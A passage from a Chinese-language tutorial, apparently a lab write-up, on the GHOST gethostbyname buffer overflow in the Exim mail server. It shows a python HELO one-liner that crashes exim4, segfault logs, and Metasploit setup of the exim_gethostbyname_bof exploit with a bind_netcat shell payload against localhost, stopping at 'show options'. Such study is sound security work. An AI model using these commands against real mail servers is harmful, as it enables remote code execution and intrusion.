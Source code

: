 ```c
  if (running_in_test_harness)
    hostdata = host_fake_gethostbyname(host->name, AF_INET, &error_num);
  else
    {
    hostdata = gethostbyname(CS host->name);
    error_num = h_errno;
    }
  #endif   /* HAVE_IPV6 */
```
函数 `host_find_byname` 调用了 `gethostbyname()` 和 `gethostbyname2()` 分别针对 IPv4 和 IPv6 进行处理，也就是在这里可以触发漏洞函数。

这一次我们输入这样的一串字符，即可导致溢出：
```
$ python -c "print 'HELO ' + '0'*$((0x500-16*1-2*8-1-8))"
```
但是程序可能还是正常在运行的，我们多输入执行几次就会触发漏洞，发生段错误，连接被断开。
```
Connection closed by foreign host.
```
```
$ dmesg | grep exim
[28929.172015] traps: exim4[3288] general protection ip:7fea41465c1d sp:7fff471f0dd0 error:0 in libc-2.15.so[7fea413f6000+1b5000]
[28929.493632] traps: exim4[3301] general protection ip:7fea42e2cc9c sp:7fff471f0d90 error:0 in exim4[7fea42db6000+dc000]
[28929.562113] traps: exim4[3304] general protection ip:7fea42e2cc9c sp:7fff471f0d90 error:0 in exim4[7fea42db6000+dc000]
[28929.631573] exim4[3307]: segfault at 100000008 ip 00007fea42e2d226 sp 00007fff471e8b50 error 4 in exim4[7fea42db6000+dc000]
```

其实对于 Exim 的攻击已经集成到了 Metasploit 框架中，我们来尝试一下，正好学习一下这个强大的框架，仿佛自己也可以搞渗透测试。先关掉debug模式的程序，重新以正常的样子打开：
```
$ /etc/init.d/exim4 restart
```
```
msf > search exim

Matching Modules
================

   Name                                          Disclosure Date  Rank       Description
   ----                                          ---------------  ----       -----------
   exploit/linux/smtp/exim4_dovecot_exec         2013-05-03       excellent  Exim and Dovecot Insecure Configuration Command Injection
   exploit/linux/smtp/exim_gethostbyname_bof     2015-01-27       great      Exim GHOST (glibc gethostbyname) Buffer Overflow
   exploit/unix/local/exim_perl_startup          2016-03-10       excellent  Exim "perl_startup" Privilege Escalation
   exploit/unix/smtp/exim4_string_format         2010-12-07       excellent  Exim4 string_format Function Heap Buffer Overflow
   exploit/unix/webapp/wp_phpmailer_host_header  2017-05-03       average    WordPress PHPMailer Host Header Command Injection


msf > use exploit/linux/smtp/exim_gethostbyname_bof 
msf exploit(linux/smtp/exim_gethostbyname_bof) > set RHOST 127.0.0.1
RHOST => 127.0.0.1
msf exploit(linux/smtp/exim_gethostbyname_bof) > set SENDER_HOST_ADDRESS 127.0.0.1
SENDER_HOST_ADDRESS => 127.0.0.1
msf exploit(linux/smtp/exim_gethostbyname_bof) > set payload cmd/unix/bind_netcat
payload => cmd/unix/bind_netcat
msf exploit(linux/smtp/exim_gethostbyname_bof) > show options 

Module options (exploit/linux/smtp/exim_gethostbyname_bof):
```